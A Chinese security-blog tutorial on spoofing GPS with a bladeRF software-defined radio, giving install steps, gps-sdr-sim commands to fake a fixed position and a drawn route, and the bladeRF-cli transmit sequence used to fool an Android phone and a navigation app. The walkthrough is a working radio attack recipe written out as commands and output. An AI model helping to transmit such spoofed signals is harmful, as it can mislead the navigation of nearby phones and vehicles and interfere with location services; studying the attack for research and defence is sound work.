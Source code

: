 

# 使用 bladeRF 进行 GPS 欺骗 - 先知社区

使用 bladeRF 进行 GPS 欺骗

- - -

## 简介

> BladeRF 是一款软件定义无线电 (SDR) 平台，由 Nuand 公司开发。它是一个高性能、可编程的设备，使用户能够发送和接收无线电频率信号。SDR 技术允许用户通过软件来控制无线电通信的各个方面，而不是传统的硬件方法

刚好手边有一块 BladeRF 的板子，尝试实现对手机和车机的 GPS 欺骗攻击

## GPS 简介

GPS（全球定位系统）是一种基于卫星导航的定位技术，通过使用一组卫星在空间中确定接收器的位置  
运行于宇宙空间的 GPS 卫星，每一个都在时刻不停地通过卫星信号向全世界广播自己的当前位置坐标信息，在发送位置的同时还会附上自己的时间戳，GPS 接收器收到卫星 GPS 数据的时候，根据时间戳和光速可以算出自己和卫星的直线距离。  
理论上来说，三维空间中 三对卫星 GPS 数据就可以确定一个点了，但是现实中要确定一个点至少需要四颗卫星，多出来的一颗卫星就是用于消除和减少误差的，保证定位有效  
[![](assets/1706771133-e13dfa2a07b479869531380780a11046.png)](https://cdn.nlark.com/yuque/0/2024/png/21398751/1706672137698-89b5a24a-3b14-4c35-a764-bdd668b9e4b9.png#averageHue=%23f0eeeb&clientId=u67f7ae35-39eb-4&from=paste&id=u998a79f1&originHeight=404&originWidth=570&originalType=url&ratio=1.5&rotation=0&showTitle=false&status=done&style=none&taskId=u429fb162-e02c-49d6-8ace-7b12ba441f7&title=)

## 环境搭建

### bladeRF 设备识别

这里使用 kali 搭建环境（尝试了在 windows 下运行，虽然能识别到 bladeRF 设备，但是运行起来还是有奇奇怪怪的问题，如果还是想自己尝试一下 windows 环境的话可以参考官方文档 - [https://github.com/Nuand/bladeRF/wiki/Getting-Started%3A-Windows](https://github.com/Nuand/bladeRF/wiki/Getting-Started%3A-Windows) ）

参考官方文档 - [https://github.com/Nuand/bladeRF/wiki/Getting-Started%3A-Linux](https://github.com/Nuand/bladeRF/wiki/Getting-Started%3A-Linux)

先将虚拟机的 USB 调整成 USB3.1  
[![](assets/1706771133-feac4b37e78af9e0542d9848f0eefc62.png)](https://cdn.nlark.com/yuque/0/2024/png/21398751/1706603121109-e2f1e953-fda7-4d68-be69-a7753f8b8ea4.png#averageHue=%23f7f3f3&clientId=u83451815-4164-4&from=paste&height=421&id=ufb684df4&originHeight=421&originWidth=942&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=42031&status=done&style=none&taskId=u7cbecc35-0b7b-4075-9f98-97ffbb6617d&title=&width=942)

安装 BladeRF 工具

```plain
$ sudo add-apt-repository ppa:nuandllc/bladerf 
$ sudo apt-get update 
$ sudo apt-get installbladerf
```

安装 header 文件

```plain
$ sudo apt-get install libbladerf-dev
```

安装 bladeRF 固件和 FPGA 镜像，自行选择

```plain
$ sudo apt-get installbladerf-firmware-fx3 # 适用于所有型号 bladeRF 的固件
$ sudo apt-get installbladerf-fpga-hostedx40 # 适用于 bladeRF x40 
$ sudo apt-get installbladerf-fpga-hostedx115 # 适用于 bladeRF x115 
$ sudo apt-get 安装 bladerf-fpga-hostedxa4 # 适用于 bladeRF 2.0 Micro A4 
$ sudo apt-get installbladerf-fpga-hostedxa9 # 适用于 bladeRF 2.0 Micro A9
```

安装依赖（这个一定要安装，至少 usb 的那两个要安装，不然会识别不到设备

```plain
sudo apt-get install libusb-1.0-0-dev libusb-1.0-0 build-essential cmake libncurses5-dev libtecla1 libtecla-dev pkg-config git wget
```

一切就绪之后，插上设备，使用命令就可以看到脸上的 bladeRF 了

```plain
bladeRF-cli -p
```

[![](assets/1706771133-61d87c78d51e03434c9bdea18bf5cdcf.png)](https://cdn.nlark.com/yuque/0/2024/png/21398751/1706603531682-5f124a4c-957f-405a-b866-4d9488260fed.png#averageHue=%23272b38&clientId=u83451815-4164-4&from=paste&height=142&id=u31edb77b&originHeight=213&originWidth=519&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=51831&status=done&style=none&taskId=ua3d76d50-be0e-4f9c-b1b4-7d866df50c5&title=&width=346)

### 生成 GPS 数据

我们利用 bladeRF 来收发 GPS 数据，GPS 数据的来源需要使用 gps-sdr-sim - [https://github.com/osqzss/gps-sdr-sim](https://github.com/osqzss/gps-sdr-sim)工具来静态生成

```plain
git clone https://github.com/osqzss/gps-sdr-sim.git
cd gps-sdr-sim
gcc gpssim.c -lm -O3 -o gps-sdr-sim
```

在谷歌在线地图上面选择一个坐标，我这里选择澳门葡京娱乐场，经纬度为 22.18982545839303, 113.544124355456  
[![](assets/1706771133-f5837f874e6a4cf507008073ec40e07c.png)](https://cdn.nlark.com/yuque/0/2024/png/21398751/1706589365087-ef7f2f3d-56d9-406c-945a-7d6657c26711.png#averageHue=%23c8ebd3&clientId=ue69a2480-96fa-4&from=paste&height=606&id=u7684b48a&originHeight=909&originWidth=1438&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=1096828&status=done&style=none&taskId=u416a9dfc-920d-414d-8dc9-4e48ad6e021&title=&width=958.6666666666666)  
使用项目源码中自带的卫星星历生成 GPS 数据，生成澳门新葡京的固定坐标数据

```plain
./gps-sdr-sim -e brdc0010.22n -l 22.18982545839303,113.544124355456,100 -b 16
```

[![](assets/1706771133-0575b76a19944c10b82bb804b8ca82fb.png)](https://cdn.nlark.com/yuque/0/2024/png/21398751/1706610910066-3f299f14-7113-4fd8-b6af-a7e3ade9834b.png#averageHue=%232a2f3c&clientId=u67f7ae35-39eb-4&from=paste&height=372&id=u62241abc&originHeight=372&originWidth=640&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=113255&status=done&style=none&taskId=uf9548f7c-1290-4c2c-aa77-679d43d3759&title=&width=640)  
这里的 gpssim.bin 文件就是模拟生成的 GPS 数据  
[![](assets/1706771133-ee1e22ecd1676280b9cf9d4a1144c765.png)](https://cdn.nlark.com/yuque/0/2024/png/21398751/1706610945529-44dd6b04-0458-4a29-8f50-9332fb01a5b3.png#averageHue=%232f3440&clientId=u67f7ae35-39eb-4&from=paste&height=347&id=u2b834577&originHeight=347&originWidth=613&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=126056&status=done&style=none&taskId=u9f34b65c-2548-432c-9475-050dfc57275&title=&width=613)

## GPS 欺骗

### 手机静态 GPS 欺骗

bladeRF 进入交互模式

```plain
# bladeRF-cli -i
bladeRF> set frequency tx1 1575.42M

  TX1 Frequency: 1575419998 Hz (Range: [47000000, 6000000000])

bladeRF> set samplerate tx1 2.6M

  Setting TX1 sample rate - req:   2600000 0/1Hz, actual:   2600000 0/1Hz

bladeRF> set bandwidth tx1 2.5M

  TX1 Bandwidth:   2500000 Hz (Range: [200000, 56000000])

bladeRF> tx config file=gpssim.bin format=bin channel=1
bladeRF> tx start
bladeRF> tx wait
```

[![](assets/1706771133-0f3796c780cbddb2eee0b04d96f9def5.png)](https://cdn.nlark.com/yuque/0/2024/png/21398751/1706610786702-e9fbcad0-f6b4-4a9e-b2f5-6928fbd0c473.png#averageHue=%23282d39&clientId=u67f7ae35-39eb-4&from=paste&height=302&id=u61be7361&originHeight=302&originWidth=642&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=83610&status=done&style=none&taskId=u23b20a65-c394-4654-b664-31fa194ebdc&title=&width=642)  
AOSP（Android 10）手机打开 GPS Test 这个软件，因为它是仅 GPS 的，所以纯纯被欺骗  
[![](assets/1706771133-c54714ba107bb0534ed930b748afeb31.jpeg)](https://cdn.nlark.com/yuque/0/2024/jpeg/21398751/1706610751260-e705ad24-ca9b-4d46-8d20-199a394357f7.jpeg#averageHue=%23385c4b&clientId=u67f7ae35-39eb-4&from=paste&height=1616&id=u7746e000&originHeight=1616&originWidth=1280&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=1119961&status=done&style=none&taskId=u13d2fd9b-7134-498b-bb87-27cf16fe6fc&title=&width=1280)  
虽然有一点点的偏差（可能是我用的星历比较老），但可以看出来 GPS 已经被欺骗了（本来在室内环境下不能识别到卫星信号）

### 联网状态下定位欺骗

> 联网状态下能实现定位欺骗吗

测试之前我觉得是不能的  
手机联网状态下高德竟然也可以被欺骗....原因可能是多样的，比如我这个测试机没有手机卡，Android 版本比较低等等  
[![](assets/1706771133-b10a542c2ac9c3f1a9f86153bd3983fb.jpeg)](https://cdn.nlark.com/yuque/0/2024/jpeg/21398751/1706667160643-a4d1a628-a036-46f2-93b1-b98d82ff1fd8.jpeg#averageHue=%233d4545&clientId=u67f7ae35-39eb-4&from=paste&height=1706&id=u2f8501d2&originHeight=1706&originWidth=1280&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=597015&status=done&style=none&taskId=u235846af-d7d3-4618-98f8-c780bab6315&title=&width=1280)

使用

### 动态 GPS 欺骗

在在线网址上画路径 - [https://earth.google.com/](https://earth.google.com/)  
[![](assets/1706771133-a1c9690f78be06cf1e3e2b38488b6684.png)](https://cdn.nlark.com/yuque/0/2024/png/21398751/1706671397068-230d7cc1-b0de-491b-977c-1e1d9c79288b.png#averageHue=%23677883&clientId=u67f7ae35-39eb-4&from=paste&height=329&id=ub593b13e&originHeight=493&originWidth=612&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=710638&status=done&style=none&taskId=uaab6a07a-08f0-4e54-b054-1dd33d0756e&title=&width=408)  
导出为 KML，接着将 kml 格式数据导入 SatGEN，生成 MNEA 格式文件  
[![](assets/1706771133-3006080df91d2bc1d29d227c8ab43a2b.png)](https://cdn.nlark.com/yuque/0/2024/png/21398751/1706672756909-4dd1c053-216b-4b2f-b4be-f02f382f1880.png#averageHue=%23cbb79e&clientId=u67f7ae35-39eb-4&from=paste&height=534&id=u53eab0e6&originHeight=801&originWidth=1258&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=170736&status=done&style=none&taskId=u5e67faf8-7db4-4961-8f02-a82fceab907&title=&width=838.6666666666666)  
生成内容如下  
[![](assets/1706771133-20ccf6abe39beb6efd597152f0823a7a.png)](https://cdn.nlark.com/yuque/0/2024/png/21398751/1706672933644-ab7e2b52-3e46-465d-840a-700a9ab7b9ef.png#averageHue=%2333302e&clientId=u67f7ae35-39eb-4&from=paste&height=385&id=ud2ccbd6a&originHeight=577&originWidth=1104&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=207443&status=done&style=none&taskId=ue9fedd2d-ac25-475f-8602-bd515dc521f&title=&width=736)  
使用 gps-sdr-sim 生成轨迹数据

```plain
./gps-sdr-sim -e brdc0010.22n -g KMLoutput.txt -b 16
```

[![](assets/1706771133-302590920e43a0d5d77f663a706a7f6f.png)](https://cdn.nlark.com/yuque/0/2024/png/21398751/1706675542488-d98abfc5-e764-4f28-88a0-052d7c6904f3.png#averageHue=%232d313c&clientId=u33bbd212-41e5-4&from=paste&height=321&id=u4e0b6272&originHeight=321&originWidth=530&originalType=binary&ratio=1&rotation=0&showTitle=false&size=83610&status=done&style=none&taskId=ub103f47e-b74b-4206-a898-7bf9f825e7e&title=&width=530)  
最后按照之前的方法使用 bladeRF-cli 进行欺骗即可，打开高德地图可以看到正在按照我们之前的路线行进，欺骗成功  
[![](assets/1706771133-016eef6ceaf3230ee274dc2c41431e8c.jpeg)](https://cdn.nlark.com/yuque/0/2024/jpeg/21398751/1706676005112-b4ebb486-c4fb-415d-ae3a-21465458949e.jpeg#averageHue=%2390968b&clientId=u33bbd212-41e5-4&from=paste&height=4096&id=ubeba984f&originHeight=4096&originWidth=3072&originalType=binary&ratio=1&rotation=0&showTitle=false&size=3880949&status=done&style=none&taskId=ub371095d-479e-42b5-9471-06968ee2501&title=&width=3072)

## 参考链接

-   [https://www.anquanke.com/post/id/204316](https://www.anquanke.com/post/id/204316)
-   [https://bbs.kanxue.com/thread-271306.htm](https://bbs.kanxue.com/thread-271306.htm)
-   [https://mp.weixin.qq.com/s/y\_seB1mt1Oa1SGZBE0skNQ](https://mp.weixin.qq.com/s/y_seB1mt1Oa1SGZBE0skNQ)
-   [https://xz.aliyun.com/t/124](https://xz.aliyun.com/t/124)
-   [https://www.cnblogs.com/magicboy110/articles/1901669.html](https://www.cnblogs.com/magicboy110/articles/1901669.html)
-   [https://zhuanlan.kanxue.com/article-12936.htm](https://zhuanlan.kanxue.com/article-12936.htm)
-   [https://github.com/Nuand/bladeRF/wiki](https://github.com/Nuand/bladeRF/wiki)
-   [https://blog.csdn.net/OpenSourceSDR/article/details/108857782](https://blog.csdn.net/OpenSourceSDR/article/details/108857782)
-   [https://www.blackhat.com/docs/eu-15/materials/eu-15-Kang-Is-Your-Timespace-Safe-Time-And-Position-Spoofing-Opensourcely-wp.pdf](https://www.blackhat.com/docs/eu-15/materials/eu-15-Kang-Is-Your-Timespace-Safe-Time-And-Position-Spoofing-Opensourcely-wp.pdf)
-   [https://blog.csdn.net/qq\_43066145/article/details/124802734](https://blog.csdn.net/qq_43066145/article/details/124802734)
-   [https://www.mrskye.cn/archives/5d9be0ae/](https://www.mrskye.cn/archives/5d9be0ae/)
